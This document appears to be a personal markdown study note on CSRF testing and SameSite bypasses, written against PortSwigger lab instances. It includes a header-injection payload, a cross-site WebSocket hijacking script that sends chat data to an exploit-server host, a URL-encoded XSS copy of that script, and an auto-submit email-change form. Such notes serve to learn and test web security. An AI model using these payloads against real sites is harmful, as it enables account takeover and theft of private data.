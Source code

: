 # CSRF

## Testing

1) Change Request method from POST to GET and GET to POST (add `&_method=POST` if not worked for GET)
2) Remove the CSRF key and try if it is working
3) Swap the CSFR token with another valid token by other user
4) Check if the CSRF token is tied to the CSRF cookie
	1) Submit an invalid CSRF token
	2) Submit a valid CSRF token from another user
	3) Submit valid CSRF token and cookie from another user
5) Try to inject HTTP Header (Set-Cookie header)
6) Chain Directory Traversal (Post to GET) to CSRF [[#SameSite Strict bypass via client-side redirect]]
7) Chain subdomain XSS (to bypass same-site:strict) to ping the burp collaborator and send websocket data to the collab url. [[#SameSite Strict bypass via sibling domain]]
8) 


### No defenses

Generate POC directly with Auto Submit

### Token validation depends on request method

Change the Request Type form POST to GET or GET to POST  
Generate PoC and Exploit with Auto Submit

### Token validation depends on token being present

Remove the CSFR token and generate the PoC.  
The Request will be Accept

### Token is not tied to user session

Swap the CSFR token with another valid token by other user.
The request will be Accept.

### Token is tied to non-session cookie

There will be a another CSFR Key (in cookies - defense mechanism) : non-Session Cookie.  
Swap both the CSFR token and CSFR key from a valid account.  
Search for Set Cookie functionality to set the CSFR key from the POC. (We need to set our attacker owned account CSRF Key when we send the link to victim).
Use img tag onerror functionality, and Auto Submit.

### Double Submit Cookie

In this case the application uses Double submit cookie.  
  
where the server does not stores any CSRF cookie.  
  
Instead it uses double submit cookie that is there will be a csrf token along with the session id, and another csrf token in the functionality (csrf parameter sent along with the other parameter).  
  
the server checks the both the CSRF tokens if they match the server accepts.  
  
to exploit this we need to find a vuln parameter that allows to inject HTTP header injection and uses Set-cookie method and add our own (any) CSRF token .  
  
then our csrf token will be set in the HTTP header  
  
and use this and generate CSRF POC with burpsuite.  
  
(the CSRF POC with burpsuite already includes a hidden input of CSRF token and we already set a cookie through parameter. So both are match and request is validated)  
  
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None


### SameSite Lax bypass via method override

The HTML forms doesn't not support methods like PUT, PATCH etc.  
  
The frameworks like Laravel gives an option to override this.  
  
There is a hidden field in the form i.e. `_method` where it informs the framework to use the specified method rather than the HTTP form method (GET or POST).  
  
This is Called "Method Spoofing"  
  
In this lab there is no Samesite Cookies set. But the Chrome will default it lax.  
  
To exploit generate CSRF POC with burpsuite. Now change the HTTP method to GET and add `_method=POST` at the end of parameter of GET URL.
  
add the new line to the form  

### SameSite Strict bypass via client-side redirect

The cookie is set with the `SameSite=Strict` attribute, browsers won't include it in any cross-site requests.

TO achieve this we need to make a request from the application itself for any functionality.

In this for comment adding there is a confirmation redirect is happening where the ID is directly placing in the JS code. So with this we can do directory traversal.

change the method from POST to GET (change email) copy the parameter and paste it in the confirmation redirect after directory traversal. 

Now Generate CSRF payload

### SameSite Strict bypass via sibling domain

The Subdomain has an XSS Vulnerability. 
In the main domain has a live chat feature with Web Sockets.

The live chat web sockets page is protected with same site strict. So cross origin requests doesn't include session cookie. 

So we are using the XSS from sub domain to make a request to our attacker hosted website with the web sockets previous chat history.

we will send the sub domain page with XSS to the victim. the XSS script will fetch all the chat data and sends to our exploit server. Since the request is comming from the sub domain. we bypassed the same site strict.

Cross-Site Websocket Hijacking Attack:

```
<script>
    var ws = new WebSocket('wss://0aa8004b03ea6683810111d900540004.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };

    ws.onmessage = function(event) {
        fetch('https://exploit-0afe00f703036646819010e501280044.exploit-server.net/exploit?content=' + event.data)
    }
</script>
```

Cross-Site Websocket Hijacking Attack + XSS:

```
<script>
document.location = "https://cms-0aa8004b03ea6683810111d900540004.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%61%38%30%30%34%62%30%33%65%61%36%36%38%33%38%31%30%31%31%31%64%39%30%30%35%34%30%30%30%34%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%66%65%30%30%66%37%30%33%30%33%36%36%34%36%38%31%39%30%31%30%65%35%30%31%32%38%30%30%34%34%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%63%6f%6e%74%65%6e%74%3d%27%20%2b%20%65%76%65%6e%74%2e%64%61%74%61%29%0a%20%20%20%20%7d%0a%3c%2f%73%63%72%69%70%74%3e&password=fwefwefw";
</script>
```


### SameSite Lax bypass via cookie refresh


In this Lax is there. So we have 2 minutes in starting after session cookie was set.
We need to run our script in this two minute time frame.

But it is not possible. The application is using OAuth Social login. So we will craft our payload to send a request to the OAuth page that will initiate a new cookie, then now we have 2 times. we will execute our script after the OAuth completion. 

We will craft our payload to open the OAuth page via `window.open` (open redirect via XSS). But the pop ups are blocking. so we need to trigger onclick window to open the OAuth page and to execute the script.

```
<form method="POST" action="https://0a5000b904add9f780e5dfdc001a00b8.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0a5000b904add9f780e5dfdc001a00b8.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```




 